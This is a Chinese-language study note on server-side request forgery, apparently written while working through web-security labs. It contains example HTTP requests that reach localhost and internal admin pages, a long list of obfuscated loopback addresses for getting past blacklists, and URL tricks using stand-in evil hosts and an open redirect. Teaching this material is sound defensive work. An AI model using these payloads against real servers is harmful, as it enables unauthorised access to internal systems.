 # Server-side request forgery (SSRF)
* 服務器端請求偽造 (SSRF)，是指攻擊者使服務器端應用程序向非預期位置發出請求。
* 可能會導致服務器與僅限組織內部之服務建立連接。 
* 可能會強制服務器連接到任意外部系統。
## 案例
### Against the server itself
* 攻擊者使服務器本身向自己發起請求，像是請求 `localhost` 、 `127.0.0.1`。
* 如果成功存取，可以進一步存取其他敏感資訊。
* 這邊我們透過 API 請求 `localhost/admin` 來取得服務器本地端的應用程式。
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```
* 應用程式會以這種方式運行，並且信任來自本地端的請求，原因包含:
    *  access control 可能只有針對從向服務器發起的請求做檢查，而不會檢查服務本身發起的請求。
    *  出於災害復原的目的，應用程式可能允許來自本地的任何用戶在不登錄的情況下進行管理訪問，以方便管理者可以直接進行復原。
    *  管理界面可能正在監聽與主應用程式不同的端口號，因此無法直接使用用戶方式訪問。
### Against other back-end systems
* 攻擊者可以透過服務器向其他服務器進行請求，進一步取得敏感資訊或是其他攻擊。
* 原因是內網中的其他服務器，可能過度信任內網中服務器的請求，而未進行內網中的服務器請求驗證。
* 這邊我們透過 API 請求 `http://192.168.0.68/admin` 來取得其他服務器的應用程式。
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```
### Circumventing common SSRF defenses
#### Blacklist-based input filters
* 應用程式可能設定 `127.0.0.1` 、 `localhost` 為黑名單，但我們可以透過下面 cheatsheet 來繞過檢查。
* [w181496/Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet#ssrf)
* [0xn3va/ssrf](https://0xn3va.gitbook.io/cheat-sheets/web-application/server-side-request-forgery)
```
127.0.0.1
127.00000.00000.0001
localhost
127.0.1
127.1
0.0.0.0
0.0
0

::1
::127.0.0.1
::ffff:127.0.0.1
::1%1

127.12.34.56 (127.0.0.1/8)
127.0.0.1.xip.io

http://2130706433 (decimal)
http://0x7f000001
http://017700000001
http://0x7f.0x0.0x0.0x1
http://0177.0.0.1
http://0177.01.01.01
http://0x7f.1
http://[::]
```
```
127。0。0。1
127｡0｡0｡1
127．0．0．1
⑫７｡⓪．𝟢。𝟷
𝟘𝖃𝟕𝒇｡𝟘𝔵𝟢｡𝟢𝙭⓪｡𝟘𝙓¹
⁰𝔁𝟳𝙛𝟢０１
２𝟏𝟑𝟢𝟕𝟢６𝟺𝟛𝟑
𝟥𝟪³。𝟚⁵𝟞。²₅𝟞。²𝟧𝟟
𝟢₁𝟳₇｡０｡０｡𝟢𝟷
𝟎𝟢𝟙⑦⁷。０００。𝟶𝟬𝟢𝟘。𝟎₀𝟎𝟢０𝟣
[::𝟏②₇．𝟘．₀．𝟷]
[::𝟭２𝟟｡⓪｡₀｡𝟣%𝟸𝟭⑤]
[::𝚏𝕱ᶠ𝕗:𝟏₂７｡₀｡𝟢｡①]
[::𝒇ℱ𝔣𝐹:𝟣𝟤７。₀。０。₁%②¹𝟧]
𝟎𝚇𝟕𝖋｡⓪｡𝟣
𝟎ˣ𝟩𝘍｡𝟷
𝟘𝟘①𝟕⑦．１
⓪𝟘𝟙𝟳𝟽｡𝟎𝓧₀｡𝟏
```
#### whitelist-based input filters
* 應用程式只允許匹配、以或包含允許值的白名單的輸入。在這種情況下，有時可以通過利用 URL 解析中的不一致來繞過。
* 透過 `@`。
```
https://expected-host@evil-host
```
* 透過 `#`。
```
https://evil-host#expected-host
```
* 透過 DNS 命名層次結構。
```
https://expected-host.evil-host
```
* URL-encode。
#### Bypassing via open redirection
* 有時候 API 可能提供開放重新導向路徑，我們可以藉此來繞過檢查。
```
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
### Blind SSRF vulnerabilities
* Blind SSRF 是指可以使用應用程式發出後端 HTTP 請求，但請求的回應不會出現在前端。
* 可以透過 out-of-band techniques (OAST) 方法，來確認是否存在 Blind SSRF。
---
###### tags: `web security`